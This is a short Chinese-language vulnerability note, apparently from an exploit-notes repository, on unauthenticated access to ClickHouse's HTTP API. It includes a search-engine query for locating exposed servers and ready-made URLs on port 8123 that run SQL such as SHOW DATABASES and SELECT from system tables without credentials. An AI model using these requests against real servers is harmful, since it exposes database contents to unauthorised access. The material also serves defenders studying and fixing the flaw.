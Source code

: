 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## 网络测绘

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](images/202202091258079.png)

执行SQL语句

![img](images/202202091258245.png)

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](images/202202091258274-16898396122771.png)

其他的SQL语句：

```
http://your-ip:8123/?query=SHOW%20DATABASES
```

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.tables
```

